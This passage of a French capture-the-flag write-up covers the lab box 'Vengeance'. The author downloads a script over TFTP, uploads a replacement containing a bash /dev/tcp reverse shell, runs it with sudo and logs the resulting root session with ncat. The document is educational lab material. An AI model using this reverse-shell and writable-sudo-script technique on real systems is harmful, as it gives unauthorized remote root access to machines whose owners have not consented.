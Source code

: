 On peut déjà récupérer le fichier pour voir à quoi il ressemble :

```bash
atftp --trace --get --remote-file eaurouge --local-file sara_eaurouge 192.168.56.122 69
```

J'ai dû le dumper depuis une capture `Wireshark` comme la dernière fois :| Il ne contient rien de critique :

```bash
#!/bin/bash

touch /home/sara/public/test.txt

echo "Test file" > /home/sara/public/test.txt

chown sara:sara /home/sara/public/test.txt

chmod 644 /home/sara/public/test.txt
```

Il faut alors uploader une version modifiée de `eaurouge` telle que ce script :

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.1/9999 0>&1
```

J'ai mis du temps à parvenir à faire fonctionner l'upload. Visiblement la communication était en partie bloquée par mon pare-feu. En branchant un _Kali Linux_ sur le même réseau privé hôte et en uploadant depuis cette machine c'est passé.

Il ne reste alors qu'à appeler `sudo /home/sara/private/eaurouge` et réceptionner notre shell :

```console
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.122.
Ncat: Connection from 192.168.56.122:40342.
root@vengeance:/home/qinyi# id
id
uid=0(root) gid=0(root) groups=0(root)
root@vengeance:/home/qinyi# cd /root
cd /root
root@vengeance:~# ls
ls
proof.txt
snap
vengeance.crt
vengeance.key
root@vengeance:~# cat proof.txt
cat proof.txt
Root access obtained!

Congratulations on breaking through the 6th box in the digitalworld.local series. Hope you enjoyed this one
```

Comme dit plus tôt la partie énumération et obtention du mot de passe avait un peu trop de guessing. La suite aurait été plus sympathique sans les problèmes qui m'étaient spécifiques.
